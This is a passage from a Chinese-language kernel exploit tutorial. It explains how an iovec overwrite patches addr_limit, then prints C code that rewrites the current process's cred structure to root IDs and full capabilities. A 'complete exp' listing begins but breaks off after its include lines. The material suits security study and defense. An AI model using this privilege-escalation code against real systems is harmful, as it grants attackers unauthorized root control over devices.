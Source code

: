 iovecstack[11].iov_base 上填写 FinalSocketData[1]

iovecstack[11].iov_len 上填写 FinalSocketData[2]

iovecstack[12].iov_base 上填写 FinalSocketData[3] 这一步将 iovecstack[12].iov_base 从原来的 0x42424242 覆盖成了 addr_limit 的地址

接着执行 iovecStack[12]，将 FinalSocketData[4] 也就是 0xfffffffffffffffe 写入 addr_limit

由此 patch 掉了 addr_limit

### 修改 cred

知道了 task_struct 和修改了 addr_limit, 因此可以在 cred 的地址上直接写入 0

```
printf("[+] Patching current task cred members \n");

    m_cred = (struct cred *)kReadQword(m_credAddress);

    if(!m_cred){
        printf("\t [-] Failed to read cred: %p",m_credAddress);
        exit(EXIT_FAILURE);
    }
    printf("\t cred: %p\n",m_cred);

    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, uid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, gid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, suid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, sgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, euid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, egid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsuid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, securebits)), SECUREBITS_DEFAULT);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_inheritable)), CAP_EMPTY_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_permitted)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_effective)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_bset)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_ambient)), CAP_EMPTY_SET);

```

完整的 exp:

```
#define _GNU_SOURCE
#include <stdbool.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <ctype.h>
#include <sys/uio.h>
#include <err.h>
#include <sched.h>
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <linux/sched.h>
#include <string.h>
#include <sys/prctl.h>
```